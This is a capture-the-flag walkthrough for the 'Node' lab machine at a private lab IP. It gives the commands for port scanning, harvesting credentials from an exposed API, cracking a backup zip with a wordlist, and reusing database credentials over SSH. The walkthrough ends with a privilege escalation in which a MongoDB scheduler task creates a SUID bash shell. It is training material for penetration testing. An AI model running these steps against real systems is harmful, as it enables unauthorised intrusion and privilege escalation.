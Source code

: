## Node

#### Scan to discover open ports
```sh
nmap -sS -P0 -n -p- -T5 -oA nmap-tcp-allports-fast 10.10.10.58
```

#### Enumerate the discovered ports
```sh
nmap -sV -n -sC -p22,3000 -oA nmap-tcp-foundports 10.10.10.58
```

Gobuster/dirbuster doesn't work as every response returns 200.

So fire up burp to intercept a request to `http://10.10.10.58:3000/`. Notice that there are 2 responses; one for `/` as expected but then another one for `/<uuid>`.

Navigate to the `/<uuid>` link from a browser through Burp. Go to the Target -> Site Map tabs and expand the 10.10.10.58 host. Notice the `/api/users/latest` file and you should see json content. If not then you can run:
```sh
$ curl -s http://10.10.10.58:3000/api/users | json_pp
```


Naviagate to the login page in a web browser at `http://10.10.10.58:3000/login`, enter the admin credentials discovered in `http://10.10.10.58:3000/api/users` and click the `Login` button.
Once you'ev logged in, click the `Download Backup` button that is presented to you and save the file as `myplace.backup.zip`.

#### Decode the content to reveal a zip file
```sh
$ base64 --decode myplace.backup > myplace.backup.zip
```

#### Crack the zip file
```sh
$ crackzip -D -p /usr/share/wordlists/rockyou.txt -u myplace.backup.zip
```

#### Unzip the backup
```sh
$ unzip myplace.backup.zip
```

#### Review the app.js file
```sh
$ vim -R var/www/myspace/app.js
```

Notice the `const url` towards the top which contains a mongodb connection string including a username and password.

#### SSH into the Node box using the mongodb creds we just found
```sh
$ ssh 10.10.10.58 -l mark
```

...

```sh
# COnnect to local mongo scheduler db
$ mongo -p -u mark scheduler

# Insert a new task to copy bash and SUID it
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/lsec; /bin/chmod u+s /tmp/lsec"});

# See if task is still pending
> db.tasks.find()

# Exit mongodb
> Ctrl-D

# Execute the SUID bash shell using the -p flag
# /tmp/lsec -p
```
